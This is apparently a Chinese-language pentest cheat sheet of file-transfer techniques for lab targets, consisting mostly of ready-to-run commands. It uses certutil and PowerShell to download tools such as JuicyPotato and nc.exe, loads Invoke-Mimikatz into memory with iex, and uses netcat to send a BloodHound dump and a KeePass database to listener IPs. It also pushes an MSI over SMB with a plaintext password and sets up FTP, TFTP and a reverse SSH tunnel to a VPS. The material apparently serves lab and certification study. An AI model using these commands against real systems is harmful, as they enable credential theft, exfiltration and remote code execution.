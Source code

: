 # certuti
```
certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe
```


# nc

接收文件
```
nc -lvp 139 > 20220518030433_BloodHound.zip
```

传送文件
```
nc.exe 192.168.119.149 139 < 20220518030433_BloodHound.zip


cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx   #如果是ps的shell
```


# powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"

iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)  #加载进内存
```

# smb

```
smbclient -c 'put <文件名>' -U <用户名> -W <域前缀> '//<主机名>/<文件夹>/' <用户密码>

smbclient -c 'put max.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```




# ftp

思路，在kali上安装一个ftp服务，方便靶机（多数时候是windows）回连传送文件

1. kali安装ftp
```
sudo apt update && sudo apt install pure-ftpd
```

2. 编写自动化创建用户脚本

下面会创建一个叫offsec的ftp用户，密码运行脚本时会要求输入
```
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

3. 执行
```
chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
```

4. 连接
用户是offsec
密码：上面的自定义密码
```
ftp [kali的IP]
```

# tftp
适用于比较旧的windwos操作系统(比如Windows XP 和 2003)传送文件，默认情况下tftp不安装在运行 Windows 7、Windows2008 年及更新版本

> TFTP是一种基于 UDP 的文件传输协议，通常受公司出口防火墙规则的限制。


1. kali安装tftp
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

2. windows上使用tftp
以下模拟widows向kali传送一个important.docx文件
```
tftp -i 10.11.0.4 put important.docx
```


tftp -i 192.168.119.156 get mimilove.exe

tftp -i 192.168.119.156 get test.txt


# ssh建立一个实时的共享文件夹

1. kali执行,这里输入vps的ssh密码
```
ssh -D <pxy转发端口> -R 10000:127.0.0.1:22 <vps user>@<vps IP>
```

例子：
```
ssh -D 9051 -R 10000:127.0.0.1:22 root@207.246.124.194
```

2. vps上执行，这里输入kali 的ssh密码
```
sshfs -p 10000 localuser@127.0.0.1:<local-path> <vps-path>
```

例子，把vps的```/tmp```目录映射到kali的```/root/tmp```
```
sshfs -p 10000 root@127.0.0.1:/root/tmp /tmp
```


